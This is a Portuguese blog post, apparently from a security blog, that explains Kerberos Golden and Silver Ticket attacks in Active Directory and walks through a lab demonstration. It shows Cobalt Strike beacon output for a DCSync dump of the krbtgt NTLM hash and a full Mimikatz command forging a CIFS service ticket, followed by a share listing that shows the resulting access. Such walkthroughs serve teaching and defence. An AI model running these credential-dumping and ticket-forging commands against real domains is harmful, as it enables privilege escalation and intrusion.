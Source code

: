 ```yaml
---
layout: post
title: Golden & Silver
---
```


Como mostrado no [post anterior](https://tuxtrack.github.io/kerberos101/), em meio ao processo de autenticação de um usuário/computador em um ambiente Microsoft Active Directory utilizando o protocolo Kerberos, uma troca de informações ocorre para validar a conta em questão. 

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/kerb.png)

Ao ocorrer a solicitação de acesso a algum recurso existente no domínio utilizando o protocolo Kerberos, automaticamente será solicitado ao KDC um ticket do tipo TGT (Ticket-Granting Ticket). Caso a conta seja válida, o KDC retornará o ticket assinado/criptografado pela conta KRBTGT. 

>KRBTGT is also the security principal name used by the KDC for a Windows Server domain, as specified by RFC 4120. The KRBTGT account is the entity for the KRBTGT security principal, and it is created automatically when a new domain is created. [MS Docs](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11))

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/krbtgt.png)

### Golden Tickets

O problema de segurança ocorre quando o hash da conta KRBTGT é comprometido. Nesse momento, o atacante pode forjar TGT's, assinando-os com o hash obtido e se utilizar de qualquer conta presente no domínio (forjada) empoderando-se dos privilégios concedidos as mesmas ou adicionando novos privilégios alterando a estrutura do ticket.

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/gt.png)

* Forging Golden Tickets

O ataque em questão foi apresentado por Benjamin Delpy, mais conhecido como [@gentilkiwi](https://twitter.com/gentilkiwi). Ele é o criador das famosas ferramentas [Mimikatz](https://github.com/gentilkiwi/mimikatz) e [Kekeo](https://github.com/gentilkiwi/kekeo), amplamente utilizadas por todos no mundo offsec.

Para efeitos de demonstração, foi utilizado a ferramenta Mimikatz para a execução do ataque. Existem outras ferramentas que podem auxiliar na tarefa, como o projeto [Rubeos](https://github.com/GhostPack/Rubeus), presente na toolkit [GhostPack](https://github.com/GhostPack/), projeto da SpecterOps criado para portar a maioria das ferramentas que antes eram escritas em Powershell para C#. Após as [melhorias de seguranças aplicadas a partir da versão 5 do Powershell](https://devblogs.microsoft.com/powershell/powershell-the-blue-team/), muitos ataques começaram a ser bloqueados, causando desconforto para os analistas. Mas isso é história para outro blog post. 

Para que o Mimikatz possa executar o ataque, são necessários alguns bits de informação:

User: Usuário no qual o atacante deseja obter iguais privilégios.

Domain Name: FQDN [(Fully Qualified Domain Name)](https://en.wikipedia.org/wiki/Fully_qualified_domain_name)

Domain SID: Domain SID 

KRBTGT NTLM Hash: Hash extraído do usuário KRBTGT.

Como mencionado, o atacante poderá alterar a estrutura do ticket, adicionando outras informações utilizando os parâmetros "/groups:" e "id", para fornecer informções sobre grupos (Grupos com poderes administrativos: 512,513,518,519,520 ) e RID's.

O processo de extração do hash da conta KRBTGT pode ser realizado de diversas formas, para mais informações, recomendo a leitura do blog post [Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/).

Processo de obtenção do hash através de [DCSYNC Attack](https://adsecurity.org/?p=1729).

```powershell
beacon> dcsync hnr.local krbtgt
[*] Tasked beacon to run mimikatz's @lsadump::dcsync /domain:hnr.local /user:krbtgt command
[+] host called home, sent: 746570 bytes
[+] received output:
[DC] 'hnr.local' will be the domain
[DC] 'GOKU.hnr.local' will be the DC server
[DC] 'krbtgt' will be the user account
Object RDN           : krbtgt
** SAM ACCOUNT **
SAM Username         : KRBTGT  
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 11/02/2020 00:41:33
Object Security ID   : S-1-5-21-45967290-1955130809-1078885739-502
Object Relative ID   : 502
Credentials:
  Hash NTLM: 86db69b9000654a8a4d4b6abe6ed1553
```
Com as informações necessárias em mãos, a execução do ataque pode ser concluída.

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/mimi.png)

Com a execução do mimikatz, o ticket para o usuário ganderson foi forjado e submetido na sessão atual utilizando um ataque chamado Pass-The-Ticket, parametro "/ptt" (Devo criar um outro blog post mostrando como funciona o Pass-the-ticket e Over Pass the Hash). 

***

### Silver Tickets


Silver Tickets seguem a mesma ideia do Golden Ticket, porém, forjado um TGS (Service Ticket) em vez do TGT. Os tickets são criados utilizando a conta do computador ou conta de serviço do recurso que o atacante deseja acessar. As informações sobre o usuário, grupo e etc podem ser forjadas sem a necessidade de nenhuma troca de informação entre User Workstation e KDC.

![](https://raw.githubusercontent.com/tuxtrack/tuxtrack.github.io/master/images/ges/st.png)

Por padrão, as senhas das contas dos computadores são alteradas a cada 30 dias. Logo, o hash da conta pode ser alterado em meio ao projeto, causando perda de acesso. Para contornar o "problema", é possível solicitar a informação sobre a máquina alvo e verificar o tempo limite até a senha ser alterada novamente. 

``` powershell
beacon> powerpick Get-NetComputer -Name SQL | Select name, samaccounttype, pwdlastset
[*] Tasked beacon to run: Get-NetComputer -Name SQL | Select name, samaccounttype, pwdlastset (unmanaged)
[+] host called home, sent: 133715 bytes
[+] received output:

name  samaccounttype pwdlastset         
----  -------------- ----------         
SQL  MACHINE_ACCOUNT 12/02/2020 14:53:05
```

Caso um usuário tente acessar um recurso no qual o mesmo não possui autorização, a negação do acesso é automaticamente efetuada. Para fins de demonstração, foi solicitado o acesso ao serviço de compartilhamento por um usuário que propositalmente não possui privilégios para tal. 

```powershell
beacon> shell dir \\SQL.hnr.local\c$
[*] Tasked beacon to run: dir \\SQL.hnr.local\c$
[+] host called home, sent: 53 bytes
[+] received output:
Access is denied.
```

Para forjar um Silver Ticket, algumas informações adicionais são necessárias: 

Taget: FQDN [(Fully Qualified Domain Name)](https://en.wikipedia.org/wiki/Fully_qualified_domain_name)

Service: Serviço no qual deseja obter acesso (PS-Remoting, WMI, Scheduled Tasks, CIFS, LDAP, WINRM...)

rc4: NTLM Hash do computador/serviço, usado para assinar os tickets de serviço.

```powershell
beacon> mimikatz kerberos::golden /domain:hnr.local /user:admin /sid:S-1-5-21-45967290-1955130809-1078885739 /target:SQL.hnr.local /service:CIFS /rc4:95e93eb10b58109a6b0227d8c821dbdd /ptt
[*] Tasked beacon to run mimikatz's kerberos::golden /domain:hnr.local /user:admin /sid:S-1-5-21-45967290-1955130809-1078885739 /target:SQL.hnr.local /service:CIFS /rc4:95e93eb10b58109a6b0227d8c821dbdd /ptt command
[+] host called home, sent: 998474 bytes
[+] received output:
User      : admin
Domain    : hnr.local (HNR)
SID       : S-1-5-21-45967290-1955130809-1078885739
User Id   : 500
Groups Id : *513 512 520 518 519 
ServiceKey: 95e93eb10b58109a6b0227d8c821dbdd - rc4_hmac_nt      
Service   : CIFS
Target    : SQL.hnr.local
Lifetime  : 01/03/2020 18:39:26 ; 27/02/2030 18:39:26 ; 27/02/2030 18:39:26
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'admin @ hnr.local' successfully submitted for current session
```

Utilizando a ferramenta klist, podemos confirmar que os tickets injetados permanecem armazenados em cache.

``` powershell
beacon> shell klist
[*] Tasked beacon to run: klist
[+] host called home, sent: 36 bytes
[+] received output:

Current LogonId is 0:0x51f1d

#0>	Client: jbolsonaro @ HNR.LOCAL
	Server: krbtgt/HNR.LOCAL @ HNR.LOCAL
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	Start Time: 3/2/2020 13:56:50 (local)
	End Time:   3/2/2020 23:41:06 (local)
	Renew Time: 3/8/2020 18:11:06 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x2 -> DELEGATION 
	Kdc Called: GOKU.hnr.local

#1>	Client: jbolsonaro @ HNR.LOCAL
	Server: host/sql.hnr.local @ HNR.LOCAL
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
	Start Time: 3/1/2020 18:11:06 (local)
	End Time:   3/2/2020 4:11:06 (local)
	Renew Time: 3/8/2020 18:11:06 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: GOKU.hnr.local
```

Como pode-se notar, após submeter o Silver Ticket na sessão para o serviço [CIFS](https://pt.wikipedia.org/wiki/Server_Message_Block), o acesso ao compartilhamento foi concedido, demonstrando a perfeita execução do ataque.

``` powershell
beacon> shell dir \\SQL.hnr.local\c$
[*] Tasked beacon to run: dir \\SQL.hnr.local\c$
[+] host called home, sent: 53 bytes
[+] received output:
 Volume in drive \\SQL.hnr.local\c$ has no label.
 Volume Serial Number is 04AB-790B

 Directory of \\SQL.hnr.local\c$

01/03/2020  11:09    <DIR>          HNRDOCS
15/09/2018  04:19    <DIR>          PerfLogs
12/02/2020  17:07    <DIR>          Program Files
12/02/2020  16:35    <DIR>          Program Files (x86)
12/02/2020  15:34    <DIR>          SQLServer2017Media
12/02/2020  15:53    <DIR>          Users
01/03/2020  18:11    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  47.061.692.416 bytes free
```
 
O intuito dos posts é se fazer entender como funcionam os ataques. As ferramentas apresentadas são apenas meios para que possamos alcançar um objetivo. Espero que tenha conseguido passar com clareza todas as informações necessárias para o entendimento e sanar quaisquer dúvidas. Caso eu tenha pecado em algo, ou alguma informação não teve embasamento necessário para seu entendimento, por favor entre em contato comigo, ficarei extramente feliz em ajudar.

Até o próximo.!!!

##### Referências

Abusing Microsoft Kerberos: Sorry You Guys Don't Get It [https://www.youtube.com/watch?v=lJQn06QLwEw](https://www.youtube.com/watch?v=lJQn06QLwEw) 